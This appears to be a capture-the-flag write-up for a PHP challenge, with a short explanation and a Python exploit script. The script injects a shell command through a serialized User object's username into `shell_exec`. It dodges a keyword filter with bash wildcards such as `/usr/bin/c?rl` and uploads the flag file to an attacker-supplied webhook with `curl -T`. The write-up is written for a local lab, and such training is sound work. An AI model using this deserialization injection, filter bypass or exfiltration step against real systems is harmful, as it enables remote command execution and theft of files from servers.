 # Php is fun

## Overview
The flag can be obtained through RCE (Remote Code Execution). It's possible to exploit deserialization to achieve RCE in the username via PHP `shell_exec` command. To do this, it's enough to serialize a User object and pass the bash command we want into the username, closing the previous string and commenting out the remaining apostrophe at the end. Once the object is serialized, we can convert it to base64 and use it as a session cookie. Since `shell_exec` executes code without displaying the output, it's necessary to use an external server such as ngrok or requestbin to send the flag. To make things even more complicated, the strings like `flag` or `curl` have been banned, but this can be easily bypassed using bash wildcards. For example, `/fl?g.*` will not be blocked e we can rewrite `curl` as `c?rl`, but execute it by referencing it from `/usr/bin/c?rl`.

## Exploit
```py
import subprocess
import requests

url = "http://127.0.0.1:6003"
webhook = input("webhook: ")

php_code = f"""
    <?php
    class User {{
        public $username;

        public function __construct($username) {{
            $this->username = $username;
        }}
    }}
    echo base64_encode(serialize(new User("'; /usr/bin/c?rl -T /fla?.* {webhook} #")));
    ?>
"""

output = subprocess.check_output(["php"], input=php_code.encode())
cookies = output.decode().strip()

requests.get(url, cookies={"user": cookies})
